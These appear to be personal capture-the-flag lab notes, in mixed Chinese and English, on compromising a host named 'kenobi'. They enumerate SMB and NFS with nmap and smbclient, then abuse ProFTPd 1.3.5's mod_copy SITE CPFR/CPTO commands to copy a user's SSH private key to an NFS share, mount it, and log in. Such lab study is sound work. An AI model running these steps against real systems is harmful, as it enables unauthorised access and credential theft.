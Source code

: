 		--> jan@basic2:/dev/shm$ ssh -i /home/kay/.ssh/id_rsa kay@10.10.50.135 
## Normal : 
	-->  sudo nmap -sV -O 10.10.63.21
	--> Samba :
		--> 適用於Linux和 Unix的標準 Windows 互通程式套件。
		--> 它允許最終用戶存取和使用公司內部網路或互聯網上的文件、印表機和其他常用共用資源
		--> SMB 有兩個連接埠：
			--> 445 : NetBIOS
			--> 139 : Window 2000
		
		--> Nmap 能夠自動運行各種網路任務
		--> nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.63.21
			=> /usr/share/nmap/scripts/smb-enum-users.nse
			=> /usr/share/nmap/scripts/smb-enum-shares.nse
			
				=>\\10.10.63.21\IPC$: 
				=>\\10.10.63.21\anonymous: 
				=>\10.10.63.21\print$: 
	
		--> connect to SMB : 
			--> smbclient //10.10.63.21/anonymous
			--> smbget -R smb://10.10.63.21/anonymous
		
	rpcbind 服務 : 
		--> port 111 
		--> 將遠端過程呼叫（RPC）程式號碼轉換為通用位址的伺服器
		--> nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.63.21
			--> 掛載點 mount : /var *
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	ProFtpd : 
	 	--> FTP伺服器，相容於Unix和Windows系統
	 	--> nmap -sV -p21 => ProFtpd 1.3.5 
		
	Searchsploit
		--> 基本上只是exploit-db.com 的命令列搜尋工具
		--> searchsploit ProFtpd 1.3.5 
			=> mod_copy => SITE CPFR 和 SITE CPTO 指令
	fps : 
		--> 503 Bad sequence of commands (mean need root)		
		--> nc 10.10.63.21 21
			--> SITE CPFR /home/kenobi/.ssh/id_rsa
			--> SITE CPTO /var/tmp/id_rsa 
	mount : 
		--> 用 node:directory 參數
			--> 將表示為裝置的檔案系統安裝到由 directory 參數指定的目錄上。
			--> mount 10.10.63.21:/var /mnt/kenobiNFS 
		--> example : 	
			--> mkdir /mnt/kenobiNFS
			--> mount 10.10.63.21:/var /mnt/kenobiNFS (copy 10.10.63.21:/var to /mnt/kenobiNFS)
			--> cp /mnt/kenobiNFS/tmp/id_rsa . (copy on now directory )
			--> sudo chmod 600 id_rsa 
			--> ssh -i id_rsa kenobi@10.10.63.21
	
